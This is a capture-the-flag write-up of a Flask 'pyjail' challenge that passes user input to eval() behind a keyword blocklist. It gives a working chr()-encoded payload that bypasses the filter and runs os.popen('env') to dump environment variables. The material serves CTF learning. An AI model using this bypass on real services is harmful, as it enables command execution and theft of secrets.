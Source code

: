
<h1>Break the system, Destroy it</h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture13.PNG>

In this challenge we got a pyjail to break.It has this source code:
```
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re

app = Flask(__name__)


def filter(command):
    blacklist = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    blacklist.extend([" ", ".", "(", ")", "+"])

    if re.search(
        "(system)|(curl)|(flag)|(subprocess)|(popen)|(import)|(global)|(class)",
        command,
        re.I,
    ):
        return True
    for c in command:
        if c not in blacklist:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        command = request.form.get("command", "")
        if command != "":
            if filter(command):
                return "You can't break reality without a command"
            else:
                try:
                    command = eval(command)
                    return str(command)
                except subprocess.CalledProcessError:
                    return "Error"
                except:
                    return "Error"
        else:
            return render_template("index.html")


app.run(host="0.0.0.0", port=8000)
```


i tried alot of methods but this method worked well for me:
```
a="__import__('os').popen('env').read()"
l=[]
for i in a:
    l.append(f"+chr({ord(i)})")

for i in l:
    print(i,end='')
```

and we found the flag in the user enviroment:
```
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(101)+chr(110)+chr(118)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```
